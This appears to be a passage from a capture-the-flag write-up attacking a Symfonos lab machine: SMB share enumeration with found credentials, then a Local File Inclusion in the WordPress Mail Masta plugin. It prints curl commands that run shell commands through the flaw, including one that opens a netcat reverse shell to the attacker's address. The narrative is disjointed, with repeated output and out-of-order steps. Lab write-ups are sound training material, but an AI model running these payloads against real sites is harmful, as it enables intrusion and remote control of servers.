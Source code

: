 The release of **Wfuzz** shows us several interesting things


and appears information in the user helios that actually we downloaded 

in file ```todo.txt``` that called my atention.

```
❯ smbmap -u helios -p qwerty -H 192.168.100.58
[+] IP: 192.168.100.58:445	Name: 192.168.100.58                                    
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	READ ONLY	Printer Drivers
	helios                                            	READ ONLY	Helios personal share
	anonymous                                         	READ ONLY	
	IPC$                                              	NO ACCESS	IPC Service (Samba 4.5.16-Debian)
❯ smbmap -u helios -p qwerty -H 192.168.100.58
[+] IP: 192.168.100.58:445	Name: 192.168.100.58                                    
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	READ ONLY	Printer Drivers
	helios                                            	READ ONLY	Helios personal share
	anonymous                                         	READ ONLY	
	IPC$                                              	NO ACCESS	IPC Service (Samba 4.5.16-Debian)
❯ smbmap -u helios -p epidioko -H 192.168.100.58
```

seems that the file has a route of an url lets try it in the port 80 that we saw in the first enumeration phase theres a interesting file,

If we access the url ```http://192.168.100.58/h3l105/```, we will be able to visualize just HTML5 format to apply the css, we have to do virtual hosting.
And if we add the hosting ```192.168.100.58 symfonos.local```, to the etc/hosts we will be able to watch the whole page in the perfect format.

In this page we can use a vulnerability that i found in exploit [database](https://www.exploit-db.com/exploits/40290)
 called mailmasta, tha page has a vulnerabily of Local file inclusion so let's enumerate the files of the page and let's find if we are able to find a possible way of gaining access
 
 ## Gaining Access

seems that we have access exploting this vulnerability  ```curl -s -X GET "http://192.168.100.58/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=whoami" page = helios``` let's make a reverse shell

After investigating that there are no resources to exploit for SQL or XSS injections, we will continue with the dictionary we encountered earlier, so we will access the ```❯ curl -s -X GET "http://192.168.100.58/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=nc+-e/bin/bash+192.168.100.53+443" ``` path.


On the one hand so far we have not found any potential user names... but by testing some credentials we can observe a vulnerability...
